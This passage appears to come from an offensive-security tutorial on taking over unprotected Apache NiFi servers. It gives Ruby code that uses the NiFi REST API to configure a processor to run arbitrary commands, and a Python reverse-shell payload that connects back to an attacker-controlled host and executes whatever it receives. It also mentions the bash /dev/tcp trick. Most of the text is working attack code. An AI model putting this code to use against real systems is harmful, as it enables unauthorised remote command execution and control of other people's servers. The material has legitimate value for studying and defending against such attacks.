 ```
def configure_processor(processor, command, command_args)
  configure = HTTP.put("#{TARGET}/processors/#{processor['id']}",
  :json => {
  :component => {
    :id => processor["id"],
    :name => processor["component"]["name"],
    :config => {
      :concurrentlySchedulableTaskCount => "1",    
      :schedulingPeriod => "10 sec",               
      :executionNode => "ALL",                     
      :penaltyDuration => "30 sec",                
      :yieldDuration => "1 sec",                   
      :bulletinLevel => "WARN",                    
      :schedulingStrategy => "TIMER_DRIVEN",       
      :comments => "",                             
      :autoTerminatedRelationships => ['success'], # Required for standalone processor
      :properties => {
     :Command => command,                      # Command to run
     "Command Arguments": command_args,        # Arguments to command
     "Batch Duration":"5 sec",                 # How often to write results
     "Redirect Error Stream":"false",          # We don't care about errors
     "Argument Delimiter":"}"                  # Set } to argument delimeter
      }                                            # because some arguments use
    },                                             # spaces. I'll explain later 
    :state => "STOPPED"                            # Don't start it just yet
    },
    :revision => {
      :clientId => "",                             
      :version => get_version(processor)           # Need correct version to update
    }
  }).parse
  return configure                                 # Redundant return
end
```

# Step 4: Put Laser Cannons On It
The configuration step above requires a command and then its command arguments separated by a '}'.  When you call the configure_processor method, these need to be set.  I chose '}' as an argument delimiter because it's not a popular character among command arguments so I shouldn't have to escape it later.  Putting a '}' after every argument sounds awful but you'll see why it isn't too big of a deal soon. 

I used python as the command to execute a reverse shell script.  For some reason (probably a good one), not all NiFi versions allow interactive bash to run in a processor so you can't use that handy /dev/tcp trick all the time.  It does work on 1.2.0, but this works on all versions if they aren't protected or installed on a server that doesn't have python.

```
command_args = "-c}\"import socket
import base64
import subprocess
HOST = '#{LHOST}'
PORT = #{LPORT}

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
while 1:
  data = s.recv(1024)
  proc = subprocess.Popen(data, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
  stdout_value = proc.stdout.read() + proc.stderr.read()
  s.send(stdout_value)
s.close()\""

```